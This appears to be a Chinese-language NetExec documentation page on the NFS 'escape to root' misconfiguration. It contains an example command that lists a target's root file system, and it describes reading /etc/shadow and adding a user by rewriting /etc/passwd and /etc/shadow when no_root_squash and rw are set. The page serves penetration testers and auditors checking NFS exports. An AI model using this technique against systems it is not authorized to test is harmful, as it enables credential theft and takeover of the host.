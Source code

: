 # 🆕 逃逸到根文件系统

默认情况下，NFS 导出不会限制对导出目录以外文件的访问。要访问这些文件，NFS 需要相应的文件句柄。然而，根文件句柄 `/` 具有静态值，这取决于文件系统。因此，如果其中一个共享在其配置中没有通过设置 `"subtree_check"` 标志来限制对导出目录的访问，就可以查询根文件系统，从而访问系统上的每个文件。

NetExec 在连接时会自动检查这种"逃逸到根"的情况，如下面的标志所示：

```
NFS         <ip>  <port>  <ip>   [*] Supported NFS versions: (3, 4) (root escape:False)
```

这可以用来访问系统上所有非 `root:root` 所有的文件，也就是说所有某些非 root 身份有读取权限的文件。一个典型的例子是 `/etc/shadow` 文件，它归 `root:shadow` 所有。此外，如果设置了 "no_root_squash" 选项，也可以读取 root:root 文件。结合 `"rw"` 标志，任何人都可以上传和覆盖系统上的任何文件，因此可以轻松将自己添加为用户。

**建议：** 文件 `/etc/exports` 定义了所有导出目录及其配置，并且对所有人可读。如果你发现一个可以进行根逃逸的主机，首先下载该文件并检查有哪些可用选项。

### 利用根逃逸

当命令中未指定共享时，NetExec 将自动尝试使用根逃逸。

`--ls` 的例子：

```
NetExec nfs <ip> --ls '/'

# 示例输出
NFS         <ip>  <port>  <ip>   [*] Supported NFS versions: (3, 4) (root escape:True)
NFS         <ip>  <port>  <ip>   [+] Successful escape on share: /var/nfs/general
NFS         <ip>  <port>  <ip>   UID        Perms  File Size     File Path
NFS         <ip>  <port>  <ip>   ---        -----  ---------     ---------
NFS         <ip>  <port>  <ip>   0          dr--   4.0KB         /.
NFS         <ip>  <port>  <ip>   0          dr--   4.0KB         /..
NFS         <ip>  <port>  <ip>   0          -rwx   7.0B          /bin
NFS         <ip>  <port>  <ip>   0          dr--   4.0KB         /boot
NFS         <ip>  <port>  <ip>   0          dr--   4.0KB         /dev
NFS         <ip>  <port>  <ip>   0          dr--   12.0KB        /etc
...
```

### 获取系统控制权：演示

如上所述，当设置了 `(rw,no_root_squash)` 选项时，您可以简单地下载 `/etc/shadow` 和 `/etc/passwd` 文件，添加自己，然后重新上传它们：

<figure><img src=".gitbook/assets/nfs_create_backdoor.png" alt=""><figcaption><p>通过 NFS 获取系统控制权</p></figcaption></figure>

### 额外资源：

{% embed url="https://www.hvs-consulting.de/en/nfs-security-identifying-and-exploiting-misconfigurations/" %}

{% embed url="https://github.com/hvs-consulting/nfs-security-tooling" %}